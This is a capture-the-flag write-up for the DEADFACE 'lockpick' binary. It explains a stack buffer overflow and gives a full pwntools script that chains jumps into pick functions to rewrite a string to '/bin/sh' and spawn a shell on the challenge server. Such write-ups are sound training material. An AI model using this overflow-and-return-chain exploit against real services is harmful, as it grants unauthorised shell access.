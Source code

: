We found this program on one of the old drives DEADFACE threw out. We think they’re using it on a server somewhere as a way for members to ‘log in…' and to keep other people out.
No password seems to work. Looking it over, it seems vulnerable enough-- but how on earth do you open a lock with no key?

---
for this challenge we have a linux binary, that asks user for a password.
```bash
$ ./lockpick
PROGRAM SECURED...
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣤⣤⣤⣄⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣾⣿⣿⣿⣿⣿⣿⣿⣿⣷⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣰⣿⣿⣿⠟⠉⠀⠀⠀⠈⠙⠿⣿⣿⣷⡄⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢰⣿⣿⡿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠙⣿⣿⣿⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⡇⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⢿⣿⣿⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⡇⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⢠⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⣤⡀⠀⠀⠀⠀
⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⡿⠋⠉⠉⠛⣿⣿⣿⣿⣿⣿⣿⣿⣷⠀⠀⠀⠀
⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⠀⠀⠀⣸⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀
⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⡶⠀⠀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⠀⠀⠀⠀
⠀⠀⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⠃⠀⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠙⢿⣿⣿⣿⣿⣿⡏⠀⠀⠀⠀⢻⣿⣿⣿⣿⣿⡿⠃⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⢿⣿⣿⣶⣶⣶⣶⣶⣾⣿⣿⠿⠛⠁⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠙⠛⠛⠉⠉⠉⠀⠀
How do you open a lock with no key?
password
Trying to unlock...
darn, not the right order...
```
this binary has
- no PIE
- NX enabled
- no canary

disassembly of the main function (binary ninja):
```C
{
    setbuf(__TMC_END__, nullptr);
    vuln();
    puts("Trying to unlock...");
    
    if (pin1 != 1 || pin2 != 1 || pin3 != 1 || pin4 != 1 || pin5 != 1)
        puts("darn, not the right order...");
    else
        system("/ghh/op");
    
    return 0;
}
```

- pin1 .. pin5 are global variables. 
- we have functions in our program called `pick1()` .. `pick5()` that has code to set `pin1` .. `pin5` to 1.
- these function also change the "/ghh/op" string to "/bin/sh".

if we can jump to these functions in order
- they will change the "/ghh/op" string to "/bin/sh"
- satisfy the condition to call system("/bin/sh")

we are dividing the payload into 2 parts because `system` has instruction which deals with xmm register and requires that the stack is 16 byte aligned, and jumping to middle of function multiple times messed up the alignment for me.

final payload:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./lockpick")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']
script = '''
set disassembly-flavor intel
break vuln
display/5i $rip
display/30xg $rsp
display/x $rdi
display/x $rsi
display/x $rdx
display/x $rcx
'''

def conn():
    if args.L:
        r = process([exe.path])
        if args.GDB:
            return gdb.debug(exe.path, gdbscript=script)
    else:
        r = remote("env01.deadface.io",9999)

    return r


def main():
    r = conn()
    offset = cyclic_find(0x6161617461616173)

    payload = [
            b'a'*offset,
            p64(0x0040127c), # after if condition in pick1
            p64(0xdeadbeef), # compensate for pop rbp
            p64(0x004012c1), # after if condition in pick2
            p64(0xdeadbeef), # compensate for pop rbp
            p64(0x00401314), # after if condition in pick3
            p64(0xdeadbeef), # compensate for pop rbp
            p64(0x0040133f), # after if condition in pick4
            p64(0xdeadbeef), # compensate for pop rbp
            p64(exe.sym['main']) # call main again.
            ]
    payload = b''.join(payload)
    r.sendline(payload)

    payload = [
            b'a'*offset,
            p64(0x00401384), # after if condition in pick4
            p64(0xdeadbeef), # compensate for pop rbp
            p64(exe.sym['main'])
            ]
    payload = b''.join(payload)

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()

```

